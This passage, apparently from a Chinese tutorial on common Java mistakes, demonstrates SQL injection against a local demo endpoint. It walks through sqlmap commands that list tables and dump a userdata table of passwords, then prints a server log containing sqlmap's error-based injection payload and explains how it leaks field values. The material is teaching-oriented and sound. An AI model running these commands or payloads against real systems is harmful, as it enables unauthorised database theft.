 第二步，查询数据库下的表：

```
    python sqlmap.py -u  http://localhost:45678/sqlinject/jdbcwrong --data name=test --tables -D "common_mistakes"
    

```

可以看到其中有一个敏感表userdata：

```
    Database: common_mistakes
    [7 tables]
    +--------------------+
    | user               |
    | common_store       |
    | hibernate_sequence |
    | m                  |
    | news               |
    | r                  |
    | userdata           |
    +--------------------+
    

```

第三步，查询userdata的数据：

```
    python sqlmap.py -u  http://localhost:45678/sqlinject/jdbcwrong --data name=test -D "common_mistakes" -T "userdata" --dump
    

```

你看，**用户密码信息一览无遗。当然，你也可以继续查看其他表的数据**：

```
    Database: common_mistakes
    Table: userdata
    [2 entries]
    +----+-------+----------+
    | id | name  | password |
    +----+-------+----------+
    | 1  | test1 | haha1    |
    | 2  | test2 | haha2    |
    +----+-------+----------+
    

```

在日志中可以看到，sqlmap实现拖库的方式是，让SQL执行后的出错信息包含字段内容。注意看下错误日志的第二行，错误信息中包含ID为2的用户的密码字段的值“haha2”。这，就是报错注入的基本原理：

```
    [13:22:27.375] [http-nio-45678-exec-10] [ERROR] [o.a.c.c.C.[.[.[/].[dispatcherServlet]:175 ] - Servlet.service() for servlet [dispatcherServlet] in context with path [] threw exception [Request processing failed; nested exception is org.springframework.dao.DuplicateKeyException: StatementCallback; SQL [SELECT id,name FROM userdata WHERE name LIKE '%test'||(SELECT 0x694a6e64 WHERE 3941=3941 AND (SELECT 9927 FROM(SELECT COUNT(*),CONCAT(0x71626a7a71,(SELECT MID((IFNULL(CAST(password AS NCHAR),0x20)),1,54) FROM common_mistakes.userdata ORDER BY id LIMIT 1,1),0x7170706271,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a))||'%']; Duplicate entry 'qbjzqhaha2qppbq1' for key '<group_key>'; nested exception is java.sql.SQLIntegrityConstraintViolationException: Duplicate entry 'qbjzqhaha2qppbq1' for key '<group_key>'] with root cause
    java.sql.SQLIntegrityConstraintViolationException: Duplicate entry 'qbjzqhaha2qppbq1' for key '<group_key>'
    

```

